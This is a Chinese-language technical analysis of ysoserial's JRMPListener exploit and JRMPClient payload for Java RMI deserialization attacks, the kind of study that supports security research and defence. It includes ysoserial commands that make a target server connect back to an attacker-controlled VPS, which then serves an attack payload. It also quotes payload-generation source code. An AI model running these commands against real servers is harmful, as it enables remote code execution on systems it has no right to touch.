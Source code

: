 
最终造成攻击的前提依然是服务端classpath存在payload执行所需的类，`makeDGCCall()`方法大体过程就是创建一个socket，并按协议约定的格式向其中填入数据。用一个重写了`annotateClass()`方法的`MarshalOutputStream`类将PayloadClass也填入socket的缓冲区，最后用`flush()`发送出去。

### Exploit/JRMPListener —— Payloads/JRMPClient

这俩exp也是配套使用，用法如下：

```powershell
## 1.用JRMPClient生成payload
java -jar ysoserial-xxx.jar JRMPClient [vpsIP]:[port] > payload.bin
## 2.将payload.bin发送给服务端让其反序列化，这会令服务器上向vps发起连接请求
## 3.这里的vps由我们控制，其上面开启了JRMPListener，在收到连接请求后会将攻击payload发送给它
java -cp ysoserial-xxx.jar ysoserial.exploit.JRMPListener [port] [payload_type] [payload_arg]
```

#### `Payloads/JRMPClient`

payload的生成过程如下：

```java
public Registry getObject ( final String command ) throws Exception {

    String host;
    int port;
    int sep = command.indexOf(':');
    if ( sep < 0 ) {
        port = new Random().nextInt(65535);
        host = command;
    }
    else {
        host = command.substring(0, sep);
        port = Integer.valueOf(command.substring(sep + 1));
    }
    ObjID id = new ObjID(new Random().nextInt()); // RMI registry
    TCPEndpoint te = new TCPEndpoint(host, port);
    UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
    RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
    // 创建一个Registry接口的代理对象proxy，它被作为payload返回
    Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, obj);
    return proxy;
}
```

在生成的payload被反序列化过程中，因为JDK动态代理实际上是生成了$Proxy类对象，其成员变量包括InvocationHandler对象，故会对obj对象（RemoteObjectInvocationHandler类）反序列化，会调用该父类RemoteObject类的`readObject()`方法：

```java
private void readObject(java.io.ObjectInputStream in)
    throws java.io.IOException, java.lang.ClassNotFoundException
{
    String refClassName = in.readUTF();
    if (refClassName == null || refClassName.length() == 0) {
        ref = (RemoteRef) in.readObject();
    } else {
        String internalRefClassName = RemoteRef.packagePrefix + "." + refClassName;
        Class refClass = Class.forName(internalRefClassName);
        try {
            ref = (RemoteRef) refClass.newInstance();
        } catch (InstantiationException e) { 
            // **** SNIP ****
        }
        ref.readExternal(in);
    }
}
```
